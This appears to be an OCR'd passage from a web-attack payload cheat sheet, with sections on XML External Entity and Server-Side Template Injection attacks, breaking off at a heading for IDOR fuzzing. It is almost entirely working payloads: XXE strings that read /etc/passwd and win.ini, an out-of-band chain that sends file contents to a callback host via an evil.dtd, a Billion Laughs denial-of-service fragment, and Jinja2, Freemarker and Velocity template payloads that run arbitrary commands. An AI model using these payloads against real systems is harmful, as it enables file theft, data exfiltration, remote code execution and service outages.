 **7. XML External Entity (XXE)**

code Codedownloadcontent\_copyexpand\_less

```
# === Basic File Read ===
<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>
<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]><root>&xxe;</root>

# === OAST Exfiltration ===
<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://{{CALLBACK_URL}}/evil.dtd"> %remote;%int;%send;]>
<!-- On your evil.dtd server: -->
<!-- <!ENTITY % file SYSTEM "file:///etc/passwd"> -->
<!-- <!ENTITY % int "<!ENTITY % send SYSTEM 'http://{{CALLBACK_URL}}/?content=%file;'>"> -->

# === Parameter Entities ===
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://{{CALLBACK_URL}}"> %xxe; ]>

# === Billion Laughs (DoS) ===
<?xml version="1.0"?><!DOCTYPE lolz [<!ENTITY lol "lol"><!ENTITY lol2 "&lol;&lol;">...
  
```

**8. Server-Side Template Injection (SSTI)**

code Codedownloadcontent\_copyexpand\_less

```
# === Detection Payloads ===
{{7*7}}
${7*7}
<%= 7*7 %>
#{7*7}
*{7*7}
{{self}}

# === RCE Payloads (Engine Specific) ===
# Jinja2 (Python)
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('{{CMD}}').read() }}
{{ config.__class__.__init__.__globals__['os'].popen('{{CMD}}').read() }}

# Freemarker (Java)
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("{{CMD}}") }

# Velocity (Java)
#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($cm=$rt.getRuntime().exec('{{CMD}}'))
$cm.getInputStream()
  
```

**9. IDOR / BOLA (Fuzzing Payloads)**
